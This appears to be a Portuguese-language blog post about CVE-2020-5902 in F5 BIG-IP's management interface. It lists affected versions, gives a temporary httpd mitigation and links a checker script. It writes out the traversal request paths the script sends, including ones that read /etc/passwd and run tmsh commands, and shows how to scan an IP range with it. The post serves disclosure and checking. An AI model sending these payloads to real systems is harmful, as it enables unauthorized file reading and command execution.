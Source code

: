 ```yaml
---
layout: post
title: Scan IP Checker CVE-2020-5902
type: post
parent_id: "7"
published: true
password: ""
status: publish
categories: [ Hacking, Programação, Python ]
tags: [ F5 Networks, Python, RCE, security, Tool, Exploit ]
permalink: /hacking/scan-ip-checker-cve-2020-5902.html
excerpt: Checker CVE-2020-5902 BIG-IP versions 15.0.0 through 15.1.0.3, 14.1.0 through 14.1.2.5, 13.1.0 through 13.1.3.3, 12.1.0 through 12.1.5.1, and 11.6.1 through 11.6.5.1 suffer from Traffic Management User Interface (TMUI) arbitrary file read and command execution vulnerabilities.
description: Checker CVE-2020-5902 BIG-IP versions 15.0.0 through 15.1.0.3, 14.1.0 through 14.1.2.5, 13.1.0 through 13.1.3.3, 12.1.0 through 12.1.5.1, and 11.6.1 through 11.6.5.1 suffer from Traffic Management User Interface (TMUI) arbitrary file read and command execution vulnerabilities.
image:
  path: "/assets/img/posts/scan-ip-checker-cve-2020-5902/banner-cve-20205902.png"
preview: "/assets/img/posts/scan-ip-checker-cve-2020-5902/banner-cve-20205902.png"
---
```


### CVE-2020-5902

![](/assets/img/posts/scan-ip-checker-cve-2020-5902/banner-cve-20205902.png)

Os dispositivos BIG-IP, fabricados pela **F5 Networks**, integram funções como gerenciar tráfego de rede, gerenciamento de segurança de aplicativos e load balancing. **BIG-IP** são hardware que tem diversas funcionalidades internas que ajudam no gerenciamento e segurança.
O pesquisador da **Positive Technologies Mikhail Klyuchnikov** que descobriu tal vulnerabilidade RCE registrada com `CVE-2020-5902`.

![](/assets/img/posts/scan-ip-checker-cve-2020-5902/animacao-cve-20205902.gif)

A vulnerabilidade descoberta pode ser usada para criar ou excluir arquivos, executar comandos no sistema.

### Versões afetadas

- `15.0.0–15.1.0.3`
- `14.1.0–14.1.2.5`
- `13.1.0–13.1.3.3`
- `12.1.0–12.1.5.1`
- `11.6.1–11.6.5.1`

### Correção temporária ( httpd config )

```bash
include '
<LocationMatch ".*..;.*">
Redirect 404 /
</LocationMatch>
'
```

### Ferramenta

> **Warnning**
Legal disclaimer: Usage of checker-CVE-2020-5902 for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or  damage caused by this program.                                               
{: .prompt-warning }

#### Download tool

- <https://github.com/MrCl0wnLab/checker-CVE-2020-5902>

**Request enviados pelo script:**

- `TARGET+/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin`
- `TARGET+/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd`
- `TARGET+/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp`
- `TARGET+/tmui/login.jsp/..;/tmui/util/getTabSet.jsp`
- `TARGET+/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp`
- `TARGET+/tmui/login.jsp/..;/tmui/locallb`

#### Execução
- `python3.8 checker.py ip_start ip_end`
- `python3.8 checker.py 192.168.15.1 192.168.15.86`


#### Output de valores
- `output.log`
- `error.log`


### Referências
- <https://engineeringjobs4u.co.uk/helping-to-protect-against-the-f5-tmui-rce-vulnerability>
- <https://medium.com/certik/cve-2020-5902-analysis-f5-big-ip-rce-vulnerability-3a3ae6278128>
- <https://packetstormsecurity.com/files/158333/BIG-IP-TMUI-Remote-Code-Execution.html>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902>
- <https://blog.cloudflare.com/cve-2020-5902-helping-to-protect-against-the-f5-tmui-rce-vulnerability/>


### Post feito ao som de

<iframe style="border-radius:12px" src="https://open.spotify.com/embed/artist/6cAXmjYOHC2R7jLrs96KTZ?utm_source=generator" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>
